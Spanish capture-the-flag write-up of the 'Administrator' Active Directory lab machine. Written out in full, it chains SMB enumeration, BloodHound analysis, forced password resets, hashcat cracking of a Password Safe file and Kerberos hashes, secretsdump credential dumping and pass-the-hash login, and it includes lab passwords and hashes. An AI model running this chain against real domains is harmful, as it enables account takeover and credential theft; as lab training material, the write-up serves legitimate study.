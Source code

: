 ```yaml
---
title: "Administrator"
date: "2025-04-19T00:04:43-05:00"
type: "maquinas"
draft: false
tags: ["Bloodhund", "Dumping-de-credenciales", "Windows"]
---
```


# Enumeración

```python
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.42 -oG allPorts
```

<a href="https://imgur.com/Y1sQo1p"><img src="https://i.imgur.com/Y1sQo1p.png" title="source: imgur.com" /></a>

```python
nmap -sCV -p21,53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49668,59464,59475,59480,59483,59502,64101 10.10.11.42 -oN target
```

<a href="https://imgur.com/DPfrAdf"><img src="https://i.imgur.com/DPfrAdf.png" title="source: imgur.com" /></a>

Con cualquiera de los siguientes dos comandos podemos identificar de diferentes maneras los usuarios que hay en la máquina.

```python
crackmapexec smb 10.10.11.42 -u 'Olivia' -p 'ichliebedich' -d Administrator.htb --rid-brute
```

<a href="https://imgur.com/l7E7WMB"><img src="https://i.imgur.com/l7E7WMB.png" title="source: imgur.com" /></a>

```python
nxc smb 10.10.11.42 -u Olivia -p ichliebedich --users
```

<a href="https://imgur.com/HdlR3Pq"><img src="https://i.imgur.com/HdlR3Pq.png" title="source: imgur.com" /></a>

Vamos a listar las configuraciones y los protocolos que se aplican a la máquina con el comando:

```python
nxc smb 10.10.11.42 -u olivia -p ichliebedich --pass-pol
```

<a href="https://imgur.com/hUsqrXp"><img src="https://i.imgur.com/hUsqrXp.png" title="source: imgur.com" /></a>

La enumeración de la política de contraseñas muestra que la longitud mínima de la contraseña es de 7 caracteres, la complejidad de la contraseña está desactivada (lo que significa que los usuarios pueden elegir contraseñas cortas y débiles) y, lo más importante, la opción **Account Lockout Threshold** está desactivada, lo que significa que podemos forzar la cuenta sin temer que se quede bloqueada.

# Bloodhund

Vamos a usar una herramienta llamada BloodHound que nos va a ayudar a encontrar vulnerabilidades para saltar de un usuario a otro y, finalmente, hacer el escalamiento de privilegios. Para instalarla y configurarla, sigue este paso a paso https://www.kali.org/tools/bloodhound/.

```python
bloodhound-python -u olivia -p ichliebedich -ns 10.10.11.42 -d administrator.htb -c all
```

<a href="https://imgur.com/pFAuSUQ"><img src="https://i.imgur.com/pFAuSUQ.png" title="source: imgur.com" /></a>

Después de subir los archivos que nos generó el comando y buscar al usuario al cual tenemos acceso, podemos ver que en Outbound Object Control tenemos la opción de saltar a otro usuario, en este caso michael@administrator.htb, y de este a benjamin@administrator.htb.

Dado esto, vemos que tenemos privilegios **GenericAll**, lo que nos permite realizar un **Force Change Password**, que es lo que vamos a intentar.

```python
net rpc password michael "newpass" -U administrator.htb/olivia%ichliebedich -S administrator.htb

pth-net rpc password michael "newpass" -U administrator.htb/Olivia%ffffffffffffffffffffffffffffffff:FBAA3E2294376DC0F5AEB6B41FFA52B7 -S administrator.htb

```

> El hash FBAA3E2294376DC0F5AEB6B41FFA52B7 salió de pasarle la contraseña de Olivia a este algoritmo de hash https://www.browserling.com/tools/ntlm-hash
> 

Con esto, hemos cambiado la contraseña de Michael y procederemos a saltar al usuario Benjamin, lo cual sigue el mismo proceso, pero cambiando las credenciales.

```python
net rpc password benjamin "newpass" -U administrator.htb/michael%"passmichael" -S administrator.htb

pth-net rpc password benjamin 11030221 -U administrator.htb/michael%ffffffffffffffffffffffffffffffff:"hashmichael" -S administrator.htb
```

Luego de esto, nos vamos a conectar por FTP como Benjamin y descargar un archivo que está en el directorio en el que ingresamos con el comando get.

```python
ftp 10.10.11.42@benjamin

get Backup.psafe3
```

## User

Si investigamos un poco, nos daremos cuenta de que es un hash y que lo podemos descifrar con Hashcat.

```python
hashcat -m 5200 -a 0 Backup.psafe3 /usr/share/wordlist/rockyou.txt --force
```

<a href="https://imgur.com/wCTdbYB"><img src="https://i.imgur.com/wCTdbYB.png" title="source: imgur.com" /></a>

Con la contraseña que nos dejó el hash, vamos a abrir el psafe3.

```python
pwsafe Backup.psafe3
```

Con las contraseñas del archivo podemos ingresar como emily para obtener la flag de usuario.

# Root

En BloodHound vemos que el único de los tres usuarios que conseguimos puede hacer algo, y ese es Emily. Entonces, vamos a seguir lo que nos dice para un Targeted Kerberoast aunque tambien lo podriamos hacer con Netexec.

<a href="https://imgur.com/6GFAwEU"><img src="https://i.imgur.com/6GFAwEU.png" title="source: imgur.com" /></a>

```python
faketime "$(ntpdate -q administrator.htb | cut -d ' ' -f 1,2)" python3 targetedKerberoast.py -v -d administrator.htb -u emily -p UXLCI5iETUsIBoFVTj8yQFKoHjXmb

faketime "$(ntpdate -q administrator.htb | cut -d ' ' -f 1,2)" nxc ldap 10.10.11.42 -u emily -p UXLCI5iETUsIBoFVTj8yQFKoHjXmb --kerberoasting output.txt
```

Esto nos deja un hash Kerberos 5 que podemos descifrar con Hashcat, y esa contraseña es la de Ethan.

```python
hashcat -m13100 output.txt /usr/share/wordlist/rockyou.txt
```

Si miramos a qué grupos pertenece en BloodHound, podemos ver que pertenece al grupo de Domain Controllers.

<a href="https://imgur.com/BddMNu2"><img src="https://i.imgur.com/BddMNu2.png" title="source: imgur.com" /></a>

Si buscamos durante un rato, podemos encontrar que podemos escalar privilegios mediante un Credential Dumping https://redcanary.com/threat-detection-report/techniques/os-credential-dumping/, y lo podemos hacer con alguno de los siguientes comandos:

```python
impacket-secretsdump -dc-ip 10.10.11.42 administrator.htb/ethan:limpbizkit@10.10.11.42
```

Esto nos va a mostrar los hashes de todos los usuarios, pero el que nos interesa es el del usuario Administrator. Entonces, con ese hash, vamos a iniciar sesión.

```python
evil-winrm -u administrator -H 3dc553ce4b9fd20bd016e098d2d2fd2e -i 10.10.11.42
```